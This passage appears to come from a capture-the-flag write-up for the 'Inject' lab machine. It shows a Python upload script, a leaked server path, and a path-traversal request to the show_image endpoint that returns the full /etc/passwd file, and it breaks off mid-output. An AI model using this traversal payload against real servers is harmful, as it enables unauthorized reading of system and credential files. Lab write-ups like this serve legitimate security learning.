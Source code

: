     The above error is browser-level, so I'm using Python to see what's actually going on:
    ```python
    import requests

    with open('test.png', 'w') as f:
        f.write('test')

    with open('test.png', 'rb') as f:
        r = requests.post(
            'http://inject.htb:8080/upload/',
            files={'file': f},
            data={'filename':'test.png'}
        )

    r = requests.get('http://inject.htb:8080/show_image?img=test.png')
    print(r.text)
    ```

    Output:
    ```
    test
    ```

- I edit the path to see if I get any errors: [`http://inject.htb:8080/show_image?img=test.png/etc/passwd`](http://inject.htb:8080/show_image?img=test.png/etc/passwd)
    ```
    {"timestamp":"2023-04-02T16:26:58.789+00:00","status":500,"error":"Internal Server Error","message":"URL [file:/var/www/WebApp/src/main/uploads/test.png/etc/passwd] cannot be resolved in the file system for checking its content length","path":"/show_image"}
    ```

    Found the path where the web app is hosted: `/var/www/WebApp/src/main/`

- Maybe there is a LFI: [`http://inject.htb:8080/show_image?img=../../../../../../../etc/passwd`](http://inject.htb:8080/show_image?img=../../../../../../../etc/passwd)
    ```
    root:x:0:0:root:/root:/bin/bash
    daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
    bin:x:2:2:bin:/bin:/usr/sbin/nologin
    sys:x:3:3:sys:/dev:/usr/sbin/nologin
    sync:x:4:65534:sync:/bin:/bin/sync
    games:x:5:60:games:/usr/games:/usr/sbin/nologin
    man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
    lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
    mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
    news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
    uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
    proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
    www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
    backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
    list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
    irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
    gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
    nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
    systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
    systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
    systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
    messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
    syslog:x:104:110::/home/syslog:/usr/sbin/nologin
    _apt:x:105:65534::/nonexistent:/usr/sbin/nologin
    tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
    uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
    tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
    landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
    pollinate:x:110:1::/var/cache/pollinate:/bin/false
    usbmux:x:111:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
    systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin